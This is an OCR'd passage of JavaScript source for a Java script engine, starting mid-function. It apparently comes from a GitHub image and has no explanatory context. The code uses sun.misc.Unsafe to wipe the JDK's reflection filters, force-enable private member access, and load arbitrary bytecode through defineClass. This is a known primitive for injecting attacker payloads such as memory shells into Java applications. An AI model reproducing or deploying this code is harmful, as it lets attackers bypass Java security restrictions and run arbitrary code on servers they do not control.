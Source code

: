 ```javascript
  var classBuffer = reflectionClass.getResourceAsStream("Reflection.class").readAllBytes();
  var reflectionAnonymousClass = unsafe.defineAnonymousClass(reflectionClass, classBuffer, null);
  var fieldFilterMapField = reflectionAnonymousClass.getDeclaredField("fieldFilterMap");
  var methodFilterMapField = reflectionAnonymousClass.getDeclaredField("methodFilterMap");
  if (fieldFilterMapField.getType().isAssignableFrom(java.lang.Class.forName("java.util.HashMap"))) {
    unsafe.putObject(reflectionClass, unsafe.staticFieldOffset(fieldFilterMapField), java.lang.Class.forName("java.util.HashMap").getConstructor().newInstance());
  }
  if (methodFilterMapField.getType().isAssignableFrom(java.lang.Class.forName("java.util.HashMap"))) {
    unsafe.putObject(reflectionClass, unsafe.staticFieldOffset(methodFilterMapField), java.lang.Class.forName("java.util.HashMap").getConstructor().newInstance());
  }
  removeClassCache(java.lang.Class.forName("java.lang.Class"));
}
function setAccessible(accessibleObject){
    var unsafe = getUnsafe();
    var overrideField = java.lang.Class.forName("java.lang.reflect.AccessibleObject").getDeclaredField("override");
    var offset = unsafe.objectFieldOffset(overrideField);
    unsafe.putBoolean(accessibleObject, offset, true);
}
function defineClass(){
  var clz = null;
  var version = java.lang.System.getProperty("java.version");
  var unsafe = getUnsafe();
  var classLoader = new java.net.URLClassLoader(java.lang.reflect.Array.newInstance(java.lang.Class.forName("java.net.URL"), 0));
  try{
    if (version.split(".")[0] >= 11) {
      bypassReflectionFilter();
    defineClassMethod = java.lang.Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", java.lang.Class.forName("[B"),java.lang.Integer.TYPE, java.lang.Integer.TYPE);
    setAccessible(defineClassMethod);
    // 绕过 setAccessible 
    clz = defineClassMethod.invoke(classLoader, bytes, 0, bytes.length);
    }else{
      var protectionDomain = new java.security.ProtectionDomain(new java.security.CodeSource(null, java.lang.reflect.Array.newInstance(java.lang.Class.forName("java.security.cert.Certificate"), 0)), null, classLoader, []);
      clz = unsafe.defineClass(null, bytes, 0, bytes.length, classLoader, protectionDomain);
    }
  }catch(error){
    error.printStackTrace();
  }finally{
    return clz;
  }
}
defineClass();
```
